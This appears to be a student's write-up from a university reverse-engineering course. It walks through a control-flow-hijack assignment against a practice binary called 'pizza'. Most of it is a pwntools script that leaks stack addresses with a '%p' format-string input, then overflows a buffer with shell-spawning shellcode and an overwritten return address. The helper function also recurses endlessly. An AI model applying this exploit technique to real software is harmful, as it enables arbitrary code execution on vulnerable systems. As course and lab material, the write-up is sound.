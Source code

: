 # Control Flow Integrity Violation

## Summary of the assignment
Before we started this assignment we had to do some preliminary tasks to get started...

* Install pwntools.
* Download the victim program "pizza".
* Attempt to run and crash the program successfully or in other words get the "segmentation fault".
* Open the victim program and analyze it in Ghidra.

Then we can start to write a Python transcript from the sample in order to crash the code and analyze the core dump.

## Script and Explanation

### Python Script
```python
#!/usr/bin/env python3
from pwn import *

# Stack Printing
def stackPrint(core, num = 20):
    rsp = core.rsp
    print("Stack")
    x = num // 2
    addresses = []
    # calculation and storing of the first half of the memory addresses
    for i in range(x, 0, -1):
        tmp = rsp + 8 * i
        addresses.append(tmp)

    # Print first address
    for addr in addresses:
        print(f"{addr:x}\t{core.read(addr, 8)}")

    # Print Stack Pointer
    print(f"{rsp:x}\t{core.read(rsp, 8)} <<<<< RSP")

    # Print second half
    for i in range(x -1, 0, -1):
        tmp = rsp -8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")
    
    stackPrint(core, num=10)

#context.log_level = 'error'

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

#getname_address = elf.symbols["getname"]

shellcode = asm(shellcraft.amd64.linux.sh())

#print(f"Shellcode: {shellcode.hex().upper()}")
#print(len(shellcode))
victim = process("./pizza")

input1 = b"%p %p %p %p %p %p %p %p %p"



print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

var = str(victim.recvline(), "latin-1")
print(var)

# Substract offsetto the start of shellcode
addr = int(var.split(" ")[7],16) -112

input2 = shellcode + b"T"*88 + addr.to_bytes(8, 'little')
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

victim.sendline(input2)

victim.interactive()

victim.wait()

exit()
```

### Explanation and Screenshots
In order to crash the victim program we had to to figure out some vulnerabilities of the code, basically breaking the code as a user of it. Once we have figured out how to create a segmentation fault then we can come up with a way to inject to the victim program our code and start figuring out how to find the right offset so we can take over our victim program.

The way the offset is calculated is that you have to find the return address in order to call our shellcode, once thats set then recognize the overwrite address to properly open the shellcode terminal and successfully take control of that. Even though a helping function to print the stack is not necessary it does make life easier and speeds up the process of finding the right place to overwrite the address. Also, feeding the program with two inputs is crucial, using either an excessive amount of the same character ``` TTTTTTTTTTT...TTTTT ``` or what we used ```%P``` you can get what's going to cause that program control.

#### Screenshot
![Screenshot from 2024-05-03 13-37-37](https://github.com/erickn02/CS479-579-Reverse-Engineering-at-NMSU/assets/111537523/478e08f7-9423-456a-a8a4-2c8c0ee43e02)

